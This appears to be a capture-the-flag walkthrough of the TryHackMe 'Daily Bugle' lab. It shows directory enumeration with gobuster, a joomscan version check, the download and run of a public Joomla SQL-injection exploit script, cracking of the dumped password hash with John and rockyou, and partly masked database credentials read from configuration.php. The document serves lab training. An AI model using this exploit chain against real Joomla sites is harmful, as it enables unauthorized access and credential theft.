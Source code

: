 # Daily Bugle Walkthrough -THM


![MainPage](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/DailyBugle.png "Website")

enumerate shares by using gobuster

```
gobuster dir -u http://10.10.87.111 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

![gobuster](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/gobuster.png "Website")


The administrator directory looks interesting...

![Joomlah]("https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/Joomlalogin.png" "Website")

Joomla login.

Downloaded joomscan

```
perl joomscan.pl -u http://10.10.87.111
```
![joomscan](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/Joomscan.png "Website")

Version found!

Get upgraded Joomblah script
https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py

```
wget https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py
```
```
python3 joomblah_py3.py http://10.10.172.228
```

![joomblah](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/joomlah_run.png "Website")

I created a text file with copied hash from joomblah output

```
nano hash.txt
(paste hash)
ctrl-x
y
enter
```

I then ran this against the hash pasted into hash.txt

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
User: j****
Password: s*********23
```

Found this in /var/www/html/configuration.php

```
public $user = 'root';
	public $password = 'nv***********Nu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'U***********mVC';
```





